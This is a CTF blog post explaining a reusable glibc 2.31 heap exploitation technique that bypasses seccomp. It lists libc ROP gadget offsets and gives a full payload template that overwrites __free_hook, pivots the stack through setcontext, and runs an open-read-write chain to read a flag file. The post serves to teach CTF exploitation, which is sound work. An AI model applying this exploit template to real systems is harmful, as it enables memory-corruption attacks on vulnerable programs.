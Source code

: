 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Glibc 2.31 Heap + Seccomp Exploitation Technique using ROP"
subtitle: ""
summary: "My technique of solving glibc 2.31 heap challenges with seccomp"
authors: [midas]
tags: []
categories: []
date: 2021-01-03T04:40:50-08:00
lastmod: 2021-01-03T04:40:50-08:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


{{< toc >}}
## Introduction
*In this post, I assume that readers are somewhat comfortable with heap exploitation. If you are not, you can start with other simpler techniques available on the Internet to get used to it first.*

Recently, I have seen a lot of glibc 2.31 heap pwning challenges in various CTFs that include `seccomp` filters which prevent you from directly overwrite `__free_hook` with `one_gadget` to pop a shell. I have also read some writeups of different CTF players using different techniques to workaround the `seccomp` filters, but it seems that no one has written about a generalized exploitation technique for this kind of challenge. Therefore in this blog post, I will demonstrate the technique I use, analyze how it works and provide you with a template that can be reused if the pre-requisites are met.

## Pre-requisites
For this technique to be successfully executed, the following conditions must be met:
- You can leak `libc` and `heap`'s base addresses. 
- You have a primitive that can overwrite `__free_hook`.
- My ROP chain is an `open-read-write` chain, which means that the only syscalls that need to be allowed by `seccomp` are `open`, `read` and `write` (this is true for most challenges). It doesn't need `mmap` or `mprotect` to work.
- You can write to a heap chunk that is large enough to contain the payload, which is 0x168 bytes, if it's too much, you can consider using other shorter payloads with `mprotect` or `mmap`, but the idea is the same (and of course you must be able to `free` that chunk).
- You know the absolute path to `flag` file (which you can most of the time ask the organizers).

## Gadgets
As I mentioned in the title, this technique is a ROP chain on the heap, and with ROP, the most important things are the gadgets. All the gadgets that are used in this technique are in `libc` itself, the `libc-2.31.so` version I used here has `md5sum` of `1ec728d58f7fc0d302119e9bb53050f8`. If you have a `libc-2.31.so` that has different checksum, the offset might be different, but the gadgets should still be there. Below are the gadgets I use:

Firstly, the ordinary gadgets that deal with manipulating registers and `syscall`:
```python
# l.address is leaked base of libc
pop_rdi = l.address + 0x26b72
pop_rsi = l.address + 0x27529
pop_rdx_r12 = l.address + 0x11c371
push_rax = l.address + 0x45197
pop_rax = l.address + 0x4a550
xchg_eax_edi = l.address + 0x2ad2b
syscall_ret = l.address + 0x66229
```

All the gadgets except `syscall_ret` can be found using this [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool. For `syscall_ret`, you can use this command (thanks `@Catafact` for this): 
```
objdump -D -Mintel ./libc-2.31.so | grep -B 1 ret | grep -A 1 syscall
``` 

The next 2 gadgets are crucial for this technique, the first one is at `call_gadget = l.address + 0x154930`:
```x86asm
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```

This gadget is what we will overwrite `__free_hook` with. It allows us to call an arbitrary function through `rdx`, if we control `rdi`, which is exactly the parameter that will be passed to `free()`. 

The next gadget is inside libc function `setcontext()`, at offset `setcontext_gadget = l.address + 0x580DD`:
```x86asm
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
ret
```
Because we control `rdx`, this gadget allows us to set almost every registers (with the exception of `rax`, `r10` and `r11`).

## The payload
My payload can be divided into 3 parts, which I will explain one by one. 

The first part:
```python
base = heap + <.....>             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
payload += p64(base)              # <-- [rdi + 8] = rdx
payload += b"B"*0x10              # padding
payload += p64(setcontext_gadget) # <-- [rdx + 0x20]
```
This is the `base` of our payload, where `rdi` will be pointed to when `free()` is called. I set `[rdi + 8]` to also be `base`, so that when `mov rdx, [rdi+8]` is executed, `rdx` will also point at `base`. Then `[rdx + 0x20]` will be the address of the `setcontext()` gadget, which will be called.

The second part, which will be utilized after `setcontext_gadget` is called:
```python
payload += p64(0)                 # <-- [rdx + 0x28] = r8
payload += p64(0)                 # <-- [rdx + 0x30] = r9
payload += b"A"*0x10              # padding
payload += p64(0)                 # <-- [rdx + 0x48] = r12
payload += p64(0)                 # <-- [rdx + 0x50] = r13
payload += p64(0)                 # <-- [rdx + 0x58] = r14
payload += p64(0)                 # <-- [rdx + 0x60] = r15
payload += p64(base + 0x258)      # <-- [rdx + 0x68] = rdi (ptr to flag path)
payload += p64(0)                 # <-- [rdx + 0x70] = rsi (flag = O_RDONLY)
payload += p64(0)                 # <-- [rdx + 0x78] = rbp
payload += p64(0)                 # <-- [rdx + 0x80] = rbx
payload += p64(0)                 # <-- [rdx + 0x88] = rdx 
payload += b"A"*8                 # padding
payload += p64(0)                 # <-- [rdx + 0x98] = rcx 
payload += p64(base + 0x1b0)      # <-- [rdx + 0xa0] = rsp, perfectly setup for it to ret into our chain
payload += p64(pop_rax)           # <-- [rdx + 0xa8] = rcx, will be pushed to rsp
```
With the comments, it is self-explanatory. This is where all the registers are set based on `rdx`. Even though there are lots of registers to set, I'm only interested at `rdi` and `rsi`, which will be the parameters to `sys_open`, along with `rcx` and `rsp`, which must be carefully set so that after `push rcx` is executed, `rsp` must be in the correct position to execute the third part, which is the ROP chain on the heap, `rcx` is set to `pop_rax` gadget to start the chain.

The third part:
```python
payload += p64(2)
payload += p64(syscall_ret) # sys_open("/path/to/flag", O_RDONLY)
payload += p64(xchg_eax_edi)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # destination buffer, can be anywhere readable and writable
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall_ret) # sys_read(eax, heap + 0x15000, 0x100)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap + 0x15000) # buffer
payload += p64(pop_rdx_r12)
payload += p64(0x100) + p64(0) # nbytes
payload += p64(pop_rax)
payload += p64(1)
payload += p64(syscall_ret) # sys_write(1, heap + 0x15000, 0x100)
payload += b"/path/to/flag"
```
Nothing much to say about this part, if you know ROP, you know that this is an ordinary `open-read-write` chain.

After allocating this `payload` and overwriting `__free_hook` with the `call_gadget`, calling `free()` on it will execute the chain and print out the `flag`.

## Examples
Here are some writeups to challenges that me and my team solved using this technique:
- [TetCTF2021 - cache_v1 & cache_v2](https://blog.efiens.com/post/midas/tetctf2021-pwn-writeups/) by `@midas` (me).
- [ASCIS/SVATTT2020 Finals - Secret Keeper](https://blog.efiens.com/post/ascis2020-final-secret-keeper/) by `@pickaxe`

